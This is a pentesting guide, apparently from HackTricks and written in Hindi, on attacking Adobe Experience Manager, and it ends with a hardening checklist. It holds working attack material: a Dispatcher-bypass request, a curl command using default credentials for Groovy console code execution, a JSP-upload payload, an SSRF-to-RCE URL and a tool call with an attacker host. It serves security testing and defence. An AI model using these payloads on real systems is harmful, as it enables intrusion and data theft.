 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Adobe Experience Cloud का हिस्सा) एक एंटरप्राइज CMS है जो Apache Sling/Felix (OSGi) और एक Java Content Repository (JCR) के ऊपर चलता है।
> हमलावर के दृष्टिकोण से AEM उदाहरण अक्सर खतरनाक विकास एंडपॉइंट्स, कमजोर Dispatcher नियम, डिफ़ॉल्ट क्रेडेंशियल और CVEs की एक लंबी श्रृंखला को उजागर करते हैं जो हर तिमाही पैच किए जाते हैं।

नीचे दी गई चेकलिस्ट **बाहरी रूप से पहुंच योग्य (unauth) हमले की सतह** पर केंद्रित है जो वास्तविक अभियानों (2022-2025) में बार-बार दिखाई देती है।

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
अन्य त्वरित संकेत:
* `/etc.clientlibs/` स्थिर पथ मौजूद है (JS/CSS लौटाता है)।
* `/libs/granite/core/content/login.html` लॉगिन पृष्ठ जिसमें “Adobe Experience Manager” बैनर है।
* `</script><!--/* CQ */-->` टिप्पणी HTML के नीचे।

---

## 2. उच्च-मूल्य वाले अनधिकृत एंडपॉइंट

पथ | आपको क्या मिलता है | नोट्स
---- | ------------- | -----
`/.json`, `/.1.json` | JCR नोड्स via **DefaultGetServlet** | अक्सर अवरुद्ध, लेकिन *Dispatcher bypass* (नीचे देखें) काम करता है।
`/bin/querybuilder.json?path=/` | QueryBuilder API | पृष्ठ वृक्ष, आंतरिक पथ, उपयोगकर्ता नाम का लीक।
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix कंसोल | डिफ़ॉल्ट रूप से 403; यदि उजागर और क्रेडेंशियल्स मिले ⇒ बंडल-अपलोड RCE।
`/crx/packmgr/index.jsp` | पैकेज प्रबंधक | प्रमाणीकृत सामग्री पैकेजों की अनुमति देता है → JSP पेलोड अपलोड।
`/etc/groovyconsole/**` | AEM Groovy कंसोल | यदि उजागर → मनमाना Groovy / Java निष्पादन।
`/libs/cq/AuditlogSearchServlet.json` | ऑडिट लॉग | जानकारी का खुलासा।
`/libs/cq/ui/content/dumplibs.html` | ClientLibs डंप | XSS वेक्टर।

### Dispatcher बायपास ट्रिक
अधिकांश उत्पादन साइटें *Dispatcher* (रिवर्स-प्रॉक्सी) के पीछे होती हैं। इसके फ़िल्टर नियमों को एक अनुमत स्थिर एक्सटेंशन **सेमीकोलन या एन्कोडेड न्यूलाइन के बाद** जोड़कर बायपास किया जा सकता है:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
एकल अनुरोध जैसे ऊपर अक्सर उपयोगकर्ता प्रोफ़ाइल नोड्स को ईमेल पतों के साथ प्रकट करता है। P-T Partners ने इस कमजोरी पर अच्छी मार्गदर्शिका प्रकाशित की है। 【】

---

## 3. सामान्य गलत कॉन्फ़िगरेशन (2025 में अभी भी जीवित)

1. **गुमनाम POST सर्वलेट** – `POST /.json` के साथ `:operation=import` आपको नए JCR नोड्स लगाने की अनुमति देता है। डिस्पैचर में `*.json` POST को ब्लॉक करना इसे ठीक करता है। 【】
2. **विश्व-प्रवेश योग्य उपयोगकर्ता प्रोफ़ाइल** – डिफ़ॉल्ट ACL `/home/users/**/profile/*` पर सभी को `jcr:read` प्रदान करता है।
3. **डिफ़ॉल्ट क्रेडेंशियल्स** – `admin:admin`, `author:author`, `replication:replication`।
4. **WCMDebugFilter** सक्षम ⇒ `?debug=layout` के माध्यम से परावर्तित XSS (CVE-2016-7882, अभी भी विरासती 6.4 इंस्टॉलेशन पर पाया गया)।
5. **Groovy कंसोल उजागर** – एक Groovy स्क्रिप्ट भेजकर दूरस्थ कोड निष्पादन:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. हाल की कमजोरियाँ (सेवा-पैक की आवृत्ति)

तिमाही | CVE | प्रभावित | प्रभाव
------- | --- | -------- | ------
दिसंबर 2024 | **CVE-2024-43711** | 6.5.21 और पहले | अनुचित इनपुट मान्यता → **मनमाना कोड निष्पादन** (कम-priv auth की आवश्यकता)। 【】
दिसंबर 2024 | CVE-2024-43724/26 | 6.5.21 और पहले | DOM / स्टोर की गई XSS मूव पेज विजार्ड में। 【】
दिसंबर 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | तैयार URL के माध्यम से DOM-आधारित XSS। 【】
दिसंबर 2022 | CVE-2022-30683 | ≤ 6.5.13 | क्रिप्टो डिज़ाइन दोष → गुप्त डिक्रिप्शन (कम-priv क्रेड्स की आवश्यकता)। 【】

हमेशा ग्राहक की सेवा-पैक से मेल खाने वाले *APSB* बुलेटिन की जांच करें और नवीनतम **6.5.22** या *Cloud Service 2024.11* का अनुरोध करें।

---

## 5. शोषण स्निप्पेट्स

### 5.1 डिस्पैचर बायपास + JSP अपलोड के माध्यम से RCE
यदि गुमनाम लेखन संभव है:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
अब `/content/evil.jsp` का अनुरोध करें - JSP AEM प्रक्रिया उपयोगकर्ता के साथ चलती है।

### 5.2 SSRF से RCE (ऐतिहासिक < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
**aem-hacker** से `aem_ssrf2rce.py` पूरी श्रृंखला को स्वचालित करता है। 【】

---

## 6. उपकरण

* **aem-hacker** – स्विस-आर्मी एन्यूमरेशन स्क्रिप्ट, डिस्पैचर बायपास, SSRF पहचान, डिफ़ॉल्ट-क्रेड्स जांच और अधिक का समर्थन करता है।
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – छिपे हुए घटकों को खोजने के लिए `/_jcr_content.(json|html)` का पुनरावृत्त अनुरोध करें।
* **osgi-infect** – यदि क्रेड्स उपलब्ध हैं तो `/system/console/bundles` के माध्यम से दुर्भावनापूर्ण OSGi बंडल अपलोड करें।

---

## 7. हार्डनिंग चेकलिस्ट (आपकी रिपोर्ट की सिफारिशों के लिए)

1. **नवीनतम संचयी सेवा पैक** पर इंस्टेंस रखें (जुलाई 2025 के अनुसार: 6.5.22)।
2. डिफ़ॉल्ट खातों को हटा दें/घुमाएं; SSO/SAML को लागू करें।
3. **Dispatcher फ़िल्टर** को कड़ा करें - `;`, एन्कोडेड नई पंक्तियों, और अनाम उपयोगकर्ताओं के लिए `*.json` या `*.querybuilder.json` को अस्वीकार करें।
4. IP अनुमति-सूचियों के साथ कंसोल (`/system/console`, `/crx/*`, `/etc/groovyconsole`) को अक्षम करें या सुरक्षित करें।
5. Adobe द्वारा भेजे गए *Anonymous Permission Hardening* पैकेज को लागू करें।

## संदर्भ

* Adobe सुरक्षा बुलेटिन APSB24-69 – “Adobe Experience Manager के लिए सुरक्षा अपडेट (दिसंबर 2024)”.
* 0ang3el – aem-hacker उपकरण (GitHub).
{{#include ../../banners/hacktricks-training.md}}
